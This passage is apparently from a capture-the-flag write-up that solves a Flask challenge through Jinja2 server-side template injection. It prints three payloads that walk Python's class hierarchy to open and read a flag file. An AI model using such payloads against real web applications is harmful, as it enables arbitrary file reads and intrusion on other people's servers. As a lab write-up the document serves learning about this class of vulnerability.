

# Finding the flag
Eventually, with a lot of trawling through the Flask documentation, and trial and error, I came to the solution by modifying the arbitrary file read found on https://pequalsnp-team.github.io

{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40](\"/tmp/flag\").read() }}

{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]('flag.txt').read() }}

Slightly more elegant solution from another writeup:
{{''.__class__.__mro__[2].__subclasses__()[40]('flag.txt').read()}}